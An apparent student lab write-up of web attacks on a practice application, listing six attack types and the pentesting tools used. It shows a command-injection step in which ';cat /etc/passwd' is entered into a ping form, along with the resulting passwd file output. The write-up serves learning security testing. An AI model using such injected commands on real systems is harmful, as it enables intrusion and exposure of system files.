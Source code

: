 Although the practice only requires 5 different types of attacks to be completed, a total of 6 attacks have been performed, which are listed below. It should be noted that more attacks have not been performed mainly because all the remaining attacks, despite having a different particular approach, share the same typology, which is to exploit/execute js code or take advantage of an inadequate use of ids or tokens (the CAPTCHA has not been performed due to the difficulty mentioned in the previous section).

Attacks carried out:
- Command Injection
- File Upload
- File Inclusion
- SQLi
- SQLi Blind
- Brute Force

It should be noted that, as in a real scenario, we have tried to use as many available resources as possible, in this case pentesting tools, a list of all the tools and resources used is attached below:

- Burpsuite (+ addon en Firefox de Burp  Proxy Toogler)
- Bash/Shell
- Hexeditor
- sqlmap
- PayloadAllTheThings Website
- Hydra
- Patator
- Credentials Wordlists

As a last detail it is worth mentioning that the exercise has been limited to obtain the necessary information, without compromising the server completely by means of a web reverse shell, which is not very realistic, but given that once command execution is obtained in the server this is trivial, it has been decided not to do it.
### Command Injection

This attack consists of taking advantage of a server vulnerability that allows us to somehow introduce commands to be executed on the web server itself. In this case the web offers us a form in which we can enter an IP to perform a ping on it.

With some basic knowledge of PHP we can deduce that the code that performs this should be something like this: `system(ping $IP)`
#### Easy

To take advantage of the fact that we can enter arbitrary values without any type of control inside the form we simply write a `;` which ends the execution of the ping command and right after that we add the command we want to be executed in this case `/etc/passwd`. The final value to enter in the form is `;cat /etc/passwd`. After executing it we get the following

```txt
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
```